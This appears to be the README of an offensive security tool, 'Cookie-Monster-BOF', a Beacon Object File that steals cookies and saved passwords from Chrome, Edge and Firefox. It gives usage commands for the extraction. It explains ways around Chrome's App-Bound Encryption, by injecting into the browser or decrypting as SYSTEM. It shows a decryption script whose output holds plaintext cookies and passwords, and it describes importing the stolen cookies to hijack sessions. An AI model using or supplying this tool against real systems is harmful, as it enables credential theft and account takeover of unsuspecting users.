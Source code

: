 # Cookie-Monster-BOF
Steal browser cookies for edge, chrome and firefox through a BOF!

Cookie Monster BOF will extract the WebKit Master Key and the App Bound Encryption Key for both Edge and Chrome, locate a browser process with a handle to the Cookies and Login Data files, copy the handle(s) and then filelessly download the target file(s).

Once the Cookies/Login Data file(s) are downloaded, the python decryption script can be used to extract those secrets! Firefox module will parse the profiles.ini and locate where the logins.json and key4.db files are located and download them. A seperate github repo is referenced for offline decryption.  

Chrome & Edge 127+ Updates: new chromium browser cookies (v20) use the app bound key to encrypt the cookies. As a result, this makes retrieving the app_bound_encrypted_key slightly more difficult. Thanks to [snovvcrash](https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824) this process can be accomplished without having to escalate your privileges. The catch is your process must be running out of the web browser's application directory. i.e. must inject into Chrome/Edge or spawn a beacon from the same application directory as the browser. 

Latest update allows you to decrypt cookies as SYSTEM and without having to inject into the browser process! Shoutout to @sdemius for the discovering how to decrypt the Chrome's [PostProcessData](https://source.chromium.org/chromium/chromium/src/+/main:chrome/elevation_service/elevator.cc;l=216;bpv=1) function and @b1scoito [explanation](https://github.com/moonD4rk/HackBrowserData/issues/431#issuecomment-2606665195)!  
 
## BOF Usage
```
Usage: cookie-monster [--chrome || --edge || --system <Local State File Path> <PID> || --firefox || --chromeCookiePID <PID> || --chromeLoginDataPID <PID> || --edgeCookiePID <PID> || --edgeLoginDataPID <PID> ] 
cookie-monster Example: 
   cookie-monster --chrome 
   cookie-monster --edge 
   cookie-monster --system "C:\Users\<USER>\AppData\Local\<BROWSER>\User Data\Local State" <PID> 
   cookie-monster --firefox 
   cookie-monster --chromeCookiePID 1337
   cookie-monster --chromeLoginDataPID 1337
   cookie-monster --edgeCookiePID 4444
   cookie-monster --edgeLoginDataPID 4444
cookie-monster Options: 
    --chrome, looks at all running processes and handles, if one matches chrome.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD 
    --edge, looks at all running processes and handles, if one matches msedge.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD
    --system, Decrypt chromium based browser app bound encryption key without injecting into browser. Requires path to Local State file and PID of a user process for impersonation 
    --firefox, looks for profiles.ini and locates the key4.db and logins.json file 
    --chromeCookiePID, if chrome PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --chromeLoginDataPID, if chrome PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
    --edgeCookiePID, if edge PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --edgeLoginDataPID, if edge PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
```

## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```

Usage
```
python3 decrypt.py -h                                                                                                                                                                      
usage: decrypt.py [-h] -k KEY -o {cookies,passwords,cookie-editor,firefox} -f FILE

Decrypt Chromium cookies and passwords given a key and DB file

options:
  -h, --help            show this help message and exit
  -k KEY, --key KEY     Decryption key
  -o {cookies,passwords,cookie-editor,firefox}, --option {cookies,passwords,cookie-editor,firefox}
                        Option to choose
  -f FILE, --file FILE  Location of the database file
```

Examples:
Decrypt Chrome/Edge Cookies File
```
python .\decrypt.py -k "\xec\xfc...." -o cookies -f ChromeCookies.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```

Decrypt Chrome/Edge Cookies File and save to json
```
python .\decrypt.py -k "\xec\xfc...." -o cookie-editor -f ChromeCookies.db
Results Example:
Cookies saved to 2025-04-11_18-06-10_cookies.json
```
Import cookies JSON file with https://cookie-editor.com/ 

Decrypt Chome/Edge Passwords File
```
python .\decrypt.py -k "\xec\xfc...." -o passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```
Decrypt Firefox Cookies and Stored Credentials: <br>
https://github.com/lclevy/firepwd

## Installation
Ensure Mingw-w64 and make is installed on the linux prior to compiling.
```
make
```

### TO-DO
- update decrypt.py to support firefox based on [firepwd](https://github.com/lclevy/firepwd) and add bruteforce module based on [DonPAPI](https://github.com/login-securite/DonPAPI)

## References
This project could not have been done without the help of Mr-Un1k0d3r and his amazing seasonal videos!
Highly recommend checking out his lessons!!! <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
Decrypt Cookies and Login Data:
https://github.com/login-securite/DonPAPI <br>
App Bound Key Decryption:
https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824 <br>
Decrypt Chrome 130+ Cookies 
https://github.com/runassu/chrome_v20_decryption/issues/14#issuecomment-2708796234 <br>
